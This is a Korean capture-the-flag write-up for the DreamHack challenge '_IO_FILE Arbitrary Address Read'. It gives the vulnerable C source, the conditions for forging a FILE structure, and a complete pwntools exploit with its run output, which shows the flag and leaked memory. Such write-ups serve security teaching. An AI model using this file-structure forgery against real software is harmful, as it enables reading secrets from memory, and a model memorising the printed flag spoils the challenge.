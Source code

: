 # [DreamHack] _IO_FILE Arbitrary Address Read

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: _IO_FILE Arbitrary Address Read에서 실습하는 문제입니다.
>
> Release: [_IO_FILE Arbitrary Address Read.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8550202/_IO_FILE.Arbitrary.Address.Read.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/161878728-1d19fc28-4d09-4a88-915d-e050179026ae.png)

## Analysis

### Source code

```c
char flag_buf[1024];
FILE *fp;

int read_flag() {
	FILE *fp;
	fp = fopen("/home/iofile_aar/flag", "r");
	fread(flag_buf, sizeof(char), sizeof(flag_buf), fp);
	fclose(fp);
}

int main() {
  const char *data = "TEST FILE!";

  init();
  read_flag();

  fp = fopen("/tmp/testfile", "w");

  printf("Data: ");

  read(0, fp, 300);

  fwrite(data, sizeof(char), sizeof(flag_buf), fp);
  fclose(fp);
}
```

`read(0, fp, 300)`에서 파일 구조체 전체를 덮을 수 있다. `flag_buf`에 저장된 플래그를 읽어오는 것이 목표이다.

## Exploit

다음의 조건들을 만족하면 `flag_buf`에 저장된 값을 읽어올 수 있다.

- `fp->_flags`의 `_IO_IS_APPENDING`(`0x1000`) 비트가 설정되어 있지 않아야 한다.
- `fp->_flags`의 `_IO_CURRENTLY_PUTTING`(`0x800`) 비트가 설정되어 있어야 한다.
- `fp->_IO_write_base`의 값이 `flag_buf`여야 한다.
- `fp->_IO_write_ptr`의 값이 `flag_buf + length`여야 한다.
- `fp->_IO_read_end`의 값이 `fp->_IO_write_base`와 같아야 한다.
- `fp->_fileno`가 1이어야 한다. (`stdout`으로 출력하기 위해서)

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('/home/iofile_aar/iofile_aar')
else:
    r = remote('host1.dreamhack.games', 19917)

flag_buf = 0x6010a0  # global var <flag_buf>

payload = p64(0xfbad0800)  # flag
payload += p64(0)  # _IO_read_ptr
payload += p64(flag_buf)  # _IO_read_end
payload += p64(0)  # _IO_read_base
payload += p64(flag_buf)  # _IO_write_base
payload += p64(flag_buf + 0x50)  # _IO_write_ptr
payload += p64(0)  # _IO_write_end
payload += p64(0)  # _IO_buf_base
payload += p64(0)  # _IO_buf_end
payload += p64(0)  # _IO_save_base
payload += p64(0)  # _IO_backup_base
payload += p64(0)  # _IO_save_end
payload += p64(0)  # _markers
payload += p64(0)  # _chain
payload += p32(1)  # _fileno

r.sendafter('Data: ', payload)

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 19917: Done
[*] Switching to interactive mode
DH{42b4dc5cc3f44173a95bbe7901b8aba3}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00TEST FILE!\x00\x00tmp/testfile\x00ata: \x00\x00\x1b\x03L\x00\x00\x00\x00\xfc\xff\xff\xa8\x00\xfd\xff\xffh\x00\xfd\xff\xff\x94\x00\xfe\xff\xff\xd0\x00J\xfe\xff\xff\xf0\x95\xfe\xff\xff\x10\x00@\xff\xff\xff0\x00\xb0\xff\xff\xffx\x00\x00\x00\x14\x00\x00\x00zR\x00x\x10\x1b\x0\x90\x07\x10\x00\x1c\x00\xb0\xfc\xff\xff+\x00\x00\x00\x00\x00\x00\x00zR\x00x\x10\x1b\x0\x90\x00\x10\x00\x1c\x00\xb4\xfc\xff\xff\x00\x00\x00\x00\x00\x00\x00\xfb\xff\xff\x80\x00\x00\x10\x0eJ\x0f\x80\x00\x1a*3$"\x00\x00\x1c\x00X\x00\x00\xfd\xff\xf\x06\x9c\x0\x00D\x00\x00\x00\x00\xfe\xff\xffe\x00\x00B\x0e\x8fB\x0e\x8e\x03\x0e\x8d\x04\x0e\x8c\x05\x0e\x86\x06\x0e\x83\x07\x0er\x0eA\x0eA\x0eB\x0eB\x0eB\x0eB\x0e\x00\x00\x00\x000\xfe\xff\xff\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\[*] Got EOF while reading in interactive
$
```